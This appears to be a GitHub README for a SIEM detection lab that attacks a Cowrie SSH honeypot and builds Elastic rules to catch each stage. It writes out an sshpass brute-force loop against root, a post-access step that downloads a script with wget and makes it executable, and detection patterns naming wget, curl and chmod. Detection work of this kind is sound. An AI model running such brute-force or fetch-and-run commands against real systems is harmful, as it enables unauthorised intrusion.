


# Elastic SIEM Detection Lab: SSH Attack Lifecycle

## Overview

This project simulates real-world SSH attacks using a Cowrie honeypot and builds detection rules in Elastic SIEM to identify attacker behavior across the full intrusion lifecycle.

The lab demonstrates detection and investigation of:

* Brute force authentication attempts
* Successful account compromise
* Post-authentication command execution
* Interactive attacker behavior

---

## Architecture



---

## Attack Simulation

A controlled attack sequence was used to generate consistent and repeatable log data.

### Failed Login Attempts

```bash
for i in {1..10}; do
  sshpass -p wrongpass ssh \
    -o StrictHostKeyChecking=no \
    -o UserKnownHostsFile=/dev/null \
    -p 2222 root@<IP> "exit"
done
```

### Successful Login

```bash
ssh root@<IP> -p 2222
```

### Post-Access Activity

```bash
ls
pwd
whoami
cd /tmp
wget http://example.com/test.sh
chmod +x test.sh
```

---

## Detection Rules

### SSH Brute Force Detection

**Method:** Threshold Rule
**Logic:** Multiple failed login attempts from a single IP

* Field: `event.action: cowrie.login.failed`
* Group by: `source.ip`
* Thresholds:

  * 5 attempts → Low
  * 10 attempts → Medium
  * 25+ attempts → High

**Example Alert**


---

### Brute Force to Successful Login (Correlation)

**Method:** Event Correlation (EQL)
**Logic:** Multiple failed logins followed by a successful login from the same IP

```eql
sequence by source.ip with maxspan=2m
  [any where event.action == "cowrie.login.failed"]
  [any where event.action == "cowrie.login.failed"]
  [any where event.action == "cowrie.login.failed"]
  [any where event.action == "cowrie.login.failed"]
  [any where event.action == "cowrie.login.failed"]
  [any where event.action == "cowrie.login.success"]
```

**Example Alert**


---

### Suspicious Command Detection

**Method:** Custom Query Rule
**Logic:** Detect commands commonly used for payload delivery

```kql
event.action: "cowrie.command.input" AND
(cowrie.command: *wget* OR cowrie.command: *curl* OR cowrie.command: *chmod*)
```

**Example Alert**


---

### Interactive Session Detection

**Method:** Threshold Rule
**Logic:** Detect human-like system exploration behavior

* Commands:

  * `ls`, `pwd`, `whoami`, `cat`, `cd`
* Threshold:

  * 5 commands within 5 minutes
* Group by: `source.ip`

**Example Alert**


---

## Investigation Workflow

When an alert is triggered:

1. Identify `source.ip` from the alert
2. Pivot in Discover:

```kql
source.ip: "X.X.X.X"
```

3. Review:

   * Failed login attempts
   * Successful authentication
   * Command execution

4. Determine:

   * Whether access was gained
   * What actions were performed

**Investigation Example**


---

## Attack Lifecycle Detection



---

## Key Insights

* Detection accuracy depends on correct data source alignment
* Field normalization improves detection reliability
* Correlation rules increase confidence by linking related events
* Controlled testing enables consistent validation

---

## Challenges and Solutions

| Challenge                       | Solution                                     |
| ------------------------------- | -------------------------------------------- |
| Attacks targeting wrong service | Corrected to target honeypot port            |
| Cowrie accepting all passwords  | Implemented user database for authentication |
| SSH tool compatibility issues   | Switched from Hydra to sshpass               |
| Excessive alert noise           | Tuned thresholds and correlation windows     |

---

## Lessons Learned

* Detection engineering requires iterative tuning
* Data quality and normalization are critical
* Correlating events provides stronger detection than single alerts
* Investigation workflows are as important as detection logic

---

## Future Improvements

* Expand command detection coverage
* Improve honeypot realism (filesystem, artifacts)
* Add enrichment (GeoIP, ASN)
* Introduce additional behavioral detections

---

## Summary

This project demonstrates the ability to:

* Simulate attacker behavior
* Build and tune SIEM detections
* Correlate events into meaningful alerts
* Investigate and validate security incidents

It represents a practical, hands-on approach to detection engineering and SOC operations.
